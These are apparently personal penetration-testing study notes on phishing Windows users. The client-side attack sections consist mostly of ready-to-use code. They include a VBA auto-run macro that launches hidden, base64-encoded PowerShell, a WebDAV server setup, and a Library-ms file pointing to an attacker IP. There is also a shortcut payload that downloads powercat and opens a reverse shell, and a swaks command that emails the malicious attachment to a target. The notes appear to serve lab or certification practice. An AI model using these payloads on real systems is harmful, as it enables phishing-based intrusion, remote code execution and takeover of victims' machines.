 # Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

# Exploit Microsoft Office
## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username $usrname -password $password  share .
   \\ip-address-of-your-linux-machine\SHARE
   ```

- Macro example: 
``` 
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- Send email to victim containing 'config,.Library-ms' which direct to malicious wsgidev 
``` 
/home/hoidam/.local/bin/wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/hoidam/webdav/
```
- Edit IP variable
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- edit the .ink file (shortcut) to run reverse shell
``` 
owershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```